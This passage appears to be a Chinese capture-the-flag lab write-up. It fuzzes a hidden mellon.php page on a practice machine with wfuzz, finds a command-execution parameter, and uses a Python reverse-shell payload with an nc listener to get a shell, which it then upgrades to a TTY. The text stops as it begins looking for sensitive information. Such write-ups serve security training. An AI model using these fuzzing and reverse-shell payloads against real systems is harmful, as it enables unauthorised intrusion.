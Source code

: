 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

扫描出mellon.php文件，访问看看

```
http://192.168.7.219/y0ush4lln0tp4ss/east/mellon.php
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

空白页面，猜测是文件包含或命令执行漏洞。开两个窗口一起跑

```
wfuzz -c -w ../../Dict/myfuzz/NewNormal.txt -u http://192.168.7.219/y0ush4lln0tp4ss/east/mellon.php?FUZZ=/etc/passwd |grep -v '0 Ch'
```

```
wfuzz -c -w ../../Dict/myfuzz/NewNormal.txt -u http://192.168.7.219/y0ush4lln0tp4ss/east/mellon.php?FUZZ=id |grep -v '0 Ch'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

试了几个字典就跑出来了，是命令执行漏洞。反弹shell到攻击机上

1。kali攻击机监听4444端口

```
nc -lvvp 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。执行payload

```
http://192.168.7.219/y0ush4lln0tp4ss/east/mellon.php?frodo=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.7.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，切换交互式shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
Ctrl+z快捷键  
stty raw -echo;fg  
reset
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

切换完成找找敏感信息
